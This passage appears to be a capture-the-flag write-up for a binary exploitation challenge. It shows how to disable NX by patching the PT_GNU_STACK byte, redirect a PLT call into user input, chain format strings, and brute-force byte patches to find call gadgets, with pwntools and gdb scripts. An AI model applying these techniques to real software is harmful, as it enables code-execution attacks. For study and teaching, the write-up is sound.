

- We can use the first byte overwrite to disable nx. A bit of research reveals [this is defined in the PT_GNU_STACK header](https://refspecs.linuxbase.org/LSB_3.0.0/LSB-PDA/LSB-PDA/progheader.html). Searching for this string in the binary is sufficient, but alternatively you can use `pwntools` to generate a new binary with the bit disabled and look through the diffs (there are a few bytes, but just modifying 0x2a8 seems sufficient):
```py
from pwn import *
from shutil import copy, move

copy("binary", "old_binary")

p = ELF("./binary")

# for some reason this is in place lmao
p.disable_nx()

move("binary", "new_binary")
move("old_binary", "binary")

f1 = open("binary", "rb").read()
f2 = open("new_binary", "rb").read()

for i, byte_pair in enumerate(zip(f1, f2)):
    if byte_pair[0] != byte_pair[1]:
        print(hex(i), byte_pair)
``` 

- We can now modify a byte to try and call our input which is `fgets`'d in. A key idea is the `plt` table, which call GOT addresses via pointer reference!



We can write our own assembly and try and play around with combinations that will give us `jmp rsi` or `call rsi` (recall this is where our input is stored before calling `printf`). Demonstration of this:


# Side quests

- The original idea for this challenge was to use one byte to get a format string and the other was to get a loop in `main`, however I wasn't sure of how to do the former with the given binary (I got very unlucky with a particular byte sob) -> now you can leak whatever. Credit to @Cefu for figuring this out!!!!!!!!!!!!!!!!!!!!
```
More complicated solution for holes: 
call fflush -> call _start 
lea rdi, [rel data_402017]  {"Hello %s"} -> xchg rdi, rax
this will give you infinite format strings
```
- I wrote a super scuffed """fuzzer""" to try and modify bytes in `main` to get a good call gadget (looking for an rsi or r9 execution), took like 30 minutes to run and found nothing. Code is:

```py
from subprocess import check_output
from time import time

candidates = [b"jmp   rsi", b"call   rsi", b"jmp   [rsi]", b"call   [rsi]",
              b"jmp   r9", b"call   r9", b"jmp   [r9]", b"call   [r9]"]

start = time()
for i in range(0x11c9, 0x1202):
    for new_byte in range(256):
        with open("binary", "rb") as f:
            with open("new_binary", "wb") as g:
                new_bytes = list(f.read())
                new_bytes[i] = new_byte
                g.write(bytes(new_bytes))
        output = check_output("""bash -c 'echo "disas main" | gdb new_binary'""", shell=True)
        for candidate in candidates:
            if candidate in output:
                print(i, new_byte, "FOUND")

    print("Checking new byte")

print(time() - start, "seconds")
```